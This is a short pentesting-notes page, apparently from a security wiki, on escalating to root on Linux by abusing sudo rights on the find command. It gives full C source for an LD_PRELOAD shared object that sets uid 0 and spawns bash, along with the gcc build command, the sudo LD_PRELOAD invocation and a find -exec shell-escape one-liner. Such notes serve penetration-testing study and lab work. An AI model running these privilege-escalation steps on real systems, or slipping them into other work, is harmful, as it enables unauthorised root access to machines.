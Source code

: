 # Sudo

Suppose for the below examples, the low-privileged user is allowed to  run the `find` command with _sudo_ privileges

```bash
$ sudo -l
Matching Defaults entries for [] on ...:
    env_reset, mail_badpass,
    ...

User [] may run the following commands on ...:
     ...
    (ALL) NOPASSWD: /usr/bin/find
    ...
```

## LD\_PRELOAD env variable

> LD\_PRELOAD is an environment variable in Linux that allows you to force the system to load specific shared libraries before any other libraries when running a program.

### Example

C code which simply spawns a root shell

_**shell.c**_

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Using `gcc` to compile the C code into a shared object file:

{% embed url="https://man7.org/linux/man-pages/man1/gcc.1.html" %}

```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

1. `-fPIC`

> If supported for the target machine, emit position-independent code, suitable for dynamic linking and avoiding any limit on the size of the global offset table.

2. `-shared`

> Produce a shared object which can then be linked with other objects to form an executable

3. `-nostartfiles`

> Do not use the standard system startup files when linking

Run the `find` command with `LD_PRELOAD` set as the previously created shared object file. This essentially executes the C code to spawn the root shell.

```bash
$ sudo LD_PRELOAD=.../shell.so find
```

## Binaries with sudo privileges&#x20;

Suppose the binary with sudo privilege is `/usr/bin/find`

```bash
$ sudo find . -exec /bin/sh \; -quit
```

Adapted from: [https://gtfobins.github.io/gtfobins/find/#sudo](https://gtfobins.github.io/gtfobins/find/#sudo)
